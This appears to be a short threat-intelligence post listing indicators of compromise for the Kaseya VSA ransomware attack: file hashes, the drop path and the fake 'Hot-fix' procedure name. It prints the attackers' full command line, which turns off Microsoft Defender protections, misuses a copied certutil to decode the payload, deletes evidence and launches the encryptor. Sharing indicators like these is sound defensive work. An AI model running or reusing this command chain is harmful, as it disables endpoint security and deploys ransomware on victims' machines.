 # angular123456789







IOCs (SHA256):

agent.exe d55f983c994caa160ec63a59f6b4250fe67fb3e8c43a388aec60a4a6978e9f1e

mpsvc.dll (sideloaded DLL, we have seen this file first hand) e2a24ab94f865caeacdf2c3ad015f31f23008ac6db8312c2cbfb32e4a5466ea2

mpsvc.dll (sideloaded DLL that others have seen) 8dd620d9aeb35960bb766458c8890ede987c33d239cf730f93fe49d90ae759dd



Ransomware encryptor is dropped to c:\kworking\agent.exe

The VSA procedure is named "Kaseya VSA Agent Hot-fix”

At least two tasks run the following: "C:\WINDOWS\system32\cmd.exe" /c ping 127.0.0.1 -n 4979 > nul & C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend & copy /Y C:\Windows\System32\certutil.exe C:\Windows\cert.exe & echo %RANDOM% >> C:\Windows\cert.exe & C:\Windows\cert.exe -decode c:\kworking\agent.crt c:\kworking\agent.exe & del /q /f c:\kworking\agent.crt C:\Windows\cert.exe & c:\kworking\agent.exe



![image](https://user-images.githubusercontent.com/32543206/124419467-2ff17000-dd7b-11eb-95fb-7d6794f748f6.png)

